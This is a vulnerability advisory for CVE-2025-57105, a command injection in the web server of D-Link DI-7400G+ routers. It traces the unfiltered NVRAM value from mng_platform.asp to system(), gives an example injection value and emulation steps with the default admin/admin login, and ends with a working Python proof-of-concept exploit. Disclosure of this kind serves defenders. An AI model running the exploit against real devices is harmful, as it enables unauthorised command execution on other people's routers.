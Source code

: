# CVE-2025-57105 Command Injection

### BUG_Author
```
Xingyu Wu
```

### Affected version
```
DI-7400 19.12.25A1
```

### Vendor
```
https://www.dlink.com.cn
```

### Software
```
https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7400G%2B
```

### VulnerabilityType
```
Command Injection
```

### Vulnerability File
```
mng_platform.asp、wayos_ac_server.asp
```

### Description

1. Drag the `jhttpd` program into IDA for reverse engineering.
The `sub_478D28` function is as follows: the addr parameter can be controlled via `GET` (since `httpd_get_parm` retrieves parameters through the `GET` method), and it is set in the `ac_mng_srv_host` item in `nvram`.
The URL interface corresponding to this function is `mng_platform.asp`.

    ![](./images/image1.png)

2. In the `sub_4A12DC` function, the value of the `ac_mng_srv_host` item is retrieved and then passed as an argument to the `system` function for execution. Since no filtering is performed beforehand, this results in a command injection vulnerability.
The function corresponds to the url interface `wayos_ac_server.asp`. By accessing this url page, the corresponding function is executed, thereby triggering the vulnerability.

    ![](./images/image2.png)

3. Combining the disassembly of the `sub_478D28` and `sub_4A12DC` functions, the command execution logic is as follows:

    ```C
    v13 = nvram_get("proxy_ac_status");
    v14 = nvram_get("ac_server_enable");
    if (v13 && strcmp(v13,"1")==0 && v14 && strcmp(v14,"1")==0) {
        snprintf(v45, 1024,
            "proxy_client \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" &",
            ac_mng_srv_host,
            proxy_http_srvport,
            lan_ipaddr,
            acserver_http_port,
            "proxy_ac_port",
            "proxy_ac_msg",
            "proxy_ac_pid"
        );
        jhl_system(v45);
    }
    ```

    Prerequisites:

    The HTTP request must contain `opt=proxy`;

    Two key values in `NVRAM` must both be set to "1":

    `proxy_ac_status == "1"`
    `ac_server_enable == "1"`

    Other NVRAM values, such as `ac_mng_srv_host`, can be injected with a payload and are not filtered.

    An attacker can write a payload through the interface (e.g., `ac_mng_srv_host=evil"; echo hello > /tmp/poc.txt;`), and then access the corresponding interface to trigger `proxy_client` execution.

### Vulnerability Verification Process

1. First, use FirmAE software to simulate the firmware
    ```Bash
    sudo ./run.sh -d di ../fmwares/DI_7400G+-19.12.25A1.trx 
    ```

    ![](./images/image3.png)

2. Use default username/password to login webpage

    ```text
    username/password：admin/admin
    ```

    ![](./images/image4.png)

    ![](./images/image5.png)

3. Turn on the AC service switch to meet one of the prerequisites for triggering the vulnerability exploit

    ![](./images/image7.png)

4. The first request writes the payload into the NVRAM field ac_mng_srv_host by passing it through the addr parameter in the mng_platform.asp interface. Here the payload is `echo 12345 > poc.txt`, which will later be executed.

    ![](./images/image6.png)

5. The second request accesses wayos_ac_server.asp with parameters that cause the system to call the vulnerable function. This triggers the execution of the previously injected payload, leading to command execution (in this example, creating poc.txt containing 12345).

    ![](./images/image8.png)

POC:

    import requests
    import time
    # Create a session object
    session = requests.session()
    # Login request URL and header information
    login_url = "http://192.168.0.1/login.cgi"
    login_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://192.168.0.1",
        "Connection": "close",
        "Referer": "http://192.168.0.1/login.html",
        "Upgrade-Insecure-Requests": "1"
    }
    login_data = {
        "user": "admin",
        "password": "admin"
    }
    # POST request to login
    login_response = session.post(login_url, headers=login_headers, data=login_data)
    print(login_response)
    # Prepare a request to execute the command
    command_url1 = f"http://192.168.0.1/mng_platform.asp?addr=`echo 12345 > poc.txt`"
    print(command_url1)
    command_url2 = f"http://192.168.0.1/wayos_ac_server.asp?enable=1"
    print(command_url2)
    command_url3 = f"http://192.168.0.1/wayos_ac_server.asp?opt=proxy&mode=1&status=1"
    print(command_url3)

    command_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "close",
            "Upgrade-Insecure-Requests": "1"
    }
    # GET request to execute the command
    res1 = session.get(command_url1, headers=command_headers)
    print(res1.text)
    time.sleep(2)
    res2 = session.get(command_url2, headers=command_headers)
    print(res2.text)
    time.sleep(2)
    res3 = session.get(command_url3, headers=command_headers)
    print(res3.text)

![](./images/image9.png)
